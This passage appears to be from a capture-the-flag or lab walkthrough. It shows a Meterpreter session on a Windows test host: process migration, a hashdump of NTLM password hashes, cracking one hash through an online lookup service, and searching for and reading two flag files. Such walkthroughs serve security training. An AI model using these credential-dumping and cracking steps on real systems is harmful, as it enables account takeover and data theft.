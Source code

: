 ```console
 3876  748   svchost.exe         x64   0

meterpreter > migrate 764
[*] Migrating from 3240 to 764...
[*] Migration completed successfully.

meterpreter > getpid
Current pid: 764

meterpreter > hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:58a478135a93ac3bf058a5ea0e8fdb71:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:a9ac3de200cb4d510fed7610c7037292:::
ballen:1112:aad3b435b51404eeaad3b435b51404ee:64f12cddaa88057e06a81b54e73b949b:::
jchambers:1114:aad3b435b51404eeaad3b435b51404ee:69596c7aa1e8daee17f8e78870e25a5c:::
jfox:1115:aad3b435b51404eeaad3b435b51404ee:c64540b95e2b2f36f0291c3a9fb8b840:::
lnelson:1116:aad3b435b51404eeaad3b435b51404ee:e88186a7bb7980c913dc90c7caa2a3b9:::
erptest:1117:aad3b435b51404eeaad3b435b51404ee:8b9ca7572fe60a1559686dba90726715:::
ACME-TEST$:1008:aad3b435b51404eeaad3b435b51404ee:b0193410734347e986c59daebea2e2af:::
```
Let's use an online rainbow table to find *jchambers* cleartext password. We can use something like [CrackStation](https://crackstation.net/) to do this.

`69596c7aa1e8daee17f8e78870e25a5c:NTLM:Trustno1`

Let's find where the "secrets.txt" file is located and display its contents.

```console
meterpreter > search -f secrets.txt
Found 1 result...
=================

Path                                                            Size (bytes)  Modified (UTC)
----                                                            ------------  --------------
c:\Program Files (x86)\Windows Multimedia Platform\secrets.txt  35            2021-07-30 01:44:27 -0600

meterpreter > cat "c:\Program Files (x86)\Windows Multimedia Platform\secrets.txt"
My Twitter password is KDSvbsw3849!
```
Let's find where the "realsecret.txt" file is located.

```console
meterpreter > search -f realsecret.txt
Found 1 result...
=================

Path                               Size (bytes)  Modified (UTC)
----                               ------------  --------------
c:\inetpub\wwwroot\realsecret.txt  34            2021-07-30 02:30:24 -0600

meterpreter > cat "c:\inetpub\wwwroot\realsecret.txt"
The Flash is the fastest man alive
```

